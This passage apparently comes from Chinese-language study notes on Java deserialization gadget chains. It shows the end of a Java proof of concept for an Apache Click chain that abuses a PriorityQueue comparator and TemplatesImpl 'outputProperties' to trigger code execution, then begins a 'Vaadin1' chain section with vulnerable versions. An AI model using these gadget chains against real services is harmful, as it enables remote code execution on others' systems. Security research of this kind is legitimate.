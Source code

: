```java
        //PriorityQueue 实例
        PriorityQueue priorityQueue = new PriorityQueue<>(2);
        priorityQueue.add("Yasax1");
        priorityQueue.add("Yasax1");

        Column cc=new Column();

        Class<?>       c           = Class.forName("org.apache.click.control.Column$ColumnComparator");
        Constructor<?> constructor = c.getDeclaredConstructor(Column.class);
        constructor.setAccessible(true);
        Object col=constructor.newInstance(cc);


        Object[] objects = new Object[]{templates, templates};
        SerializeUtil.setFieldValue(priorityQueue, "comparator", col);
        SerializeUtil.setFieldValue(priorityQueue, "queue", objects);

        SerializeUtil.setFieldValue(cc,"name","outputProperties");
        //不设置table属性反序列化时会抛出异常
        SerializeUtil.setFieldValue(cc,"table",new Table());

        SerializeUtil.writeObjectToFile(priorityQueue,"Click");
        SerializeUtil.readFileObject("Click");

    }
}
```

# Vaadin1

## 利用条件

vaadin-server : 7.7.14
vaadin-shared : 7.7.14

## 前置知识

### NestedMethodProperty

`com.vaadin.data.util.NestedMethodProperty`是一个封装访问属性方法的类,

其中的getValue方法可以进行方法调用

![image-20211124183956516](img/image-20211124183956516.png)
